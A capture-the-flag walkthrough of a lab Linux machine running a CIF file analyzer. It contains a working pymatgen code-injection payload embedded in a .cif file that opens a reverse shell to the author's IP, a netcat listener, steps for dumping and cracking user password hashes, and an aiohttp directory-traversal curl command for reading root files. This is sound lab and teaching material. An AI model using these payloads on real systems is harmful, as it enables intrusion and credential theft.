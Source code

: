 # Chemistry (Linux)

Target IP Address 10.10.11.38

ran `nmap -sVC 10.10.11.38`

## Results (from nmap)
Two open port numbers:
1. 22 (SSH)
2. 5000 (HTTP)

## 5000 (HTTP)
From the very beginning we see a web page that displays
> Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.
with Login and Register buttons, both have a directory/path that it takes you to. 

Tried to use username, password to login and no luck. 

Inspected the webpage and looked at the source code for anything useful.
Went over to storage and foudn that under cookies that have left a session key, xss attack?

Before that, I wanted to try and see what the register button does; put in a username and a password and it register you right away. 
We can instantly see that it allows us to upload a CIF file. 

## CIF exploit
Once I saw that we can upload a file that alwaus just means that is a perfect opporunity to try and exploit it.
Googled "CIF file exploit" and came acroos this [GitHub](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

**Let's rememeber the fact that the webpage when we register also gave an CIF example file to download (An example is available here) with a link that downloads the file**

From the code that we found in this github link; we can use this to insert it into our CIF example file. 
1. The .cif file is supposed to store crystallographic data for molecular structures.
2. Instead of purely scientific data, it injects Python code through the os.system() function.
3. `"__builtins__.__import__('os').system('/bin/bash -c \"sh -i >& /dev/tcp/youripaddress/portlisternernumber 0>&1\"')"` 

THE FINAL .cif WILL LOOK LIKE THIS

`data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.202/7777 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

`

Once all this is done we can go ahead an upload our .cif file.
Start a Netcat listener (make sure the port number is all the same) `nc -lvnp 7777`.
Click on view and this will trigger the reverse shell, establashing a connection back to our ip address. 

From here you want to look/search for anything useful. 
`ls -la` lists all files and directories (including hidden ones) in long format, showing detailed permissions, ownership, size, and modification time.

Notice a directory "instance"; `cd` into it and then we do the same as we did just now. `ls -la` and look for anything useful.
We come across database.db
Use `sqlite3 database.db`
`.tables` built-in SQLite command
`SELECT * FROM user;`
List of user names and MD5 hashed passwords will display.
[Crack MD5 hash passwords] (https://crackstation.net/)

I tried admin and the one after and did not work until I got to rosa and cracked the password.

## SSH
`ssh rosa@10.10.10.28`
Login with the password we just cracked.
Look for the user.txt flag

Once you found that we want to get more information from this machine and see what we find.
`cd ..` We see an app directory 
Able to notice that it is running a python application. 
Was not able to use `cat` on the .py file and could not get into the other directories.
We know it is running a python app so most likely in the development stages.
`curl localhost:8080 --head` Here we can see that it is running **aiohttp/3.9.1**; begin searching for known exploits related to this version.
Using the curl command we got from [here] (https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0), we will be able to run the exploit. 
Since all we are looking for is root.txt we add that into the command `curl -s --path-as-is "http://localhost:8081/static/../../../../../root/root.txt"`
404 is what is returned when running this command. /static does not exist so we for sure have to look for a path that does. 
If we `curl -s localhost:8080` and take a look at the code; we find that there is a directory/path called **assets**. Add it into the curl command and root.txt will display right under.


Simple solid CTF to start again after a long break; with great power comes great responsibility, stay ethical. 
